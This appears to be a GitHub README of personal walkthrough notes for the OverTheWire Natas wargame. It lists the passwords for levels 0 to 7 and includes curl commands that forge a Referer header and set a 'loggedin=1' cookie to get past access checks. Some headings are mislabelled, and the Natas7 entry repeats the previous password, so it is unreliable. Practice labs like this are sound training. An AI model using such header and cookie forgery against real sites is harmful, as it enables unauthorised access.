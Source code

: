 # Natas-wu
just a note when i was bored

## Natas0
```
natas0
natas0
```
## Natas2 
```
natas1
0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq
```
## Natas2
```
natas2
TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
```
## Natas3
```
natas3
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
```
## Natas4
```
robots.txt
natas4
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
## Natas5
```shell
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org

natas5
0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```
## Natas6
```shell
Cookie: loggedin=1
or
curl -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK -b loggedin=1 http://natas5.natas.labs.overthewire.org/

natas6
0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```
## Natas7
```shell
includes/secret.inc
natas7
0RoJwHdSKWFTYR5WuiAewauSuNaBXned
```
## Natas8

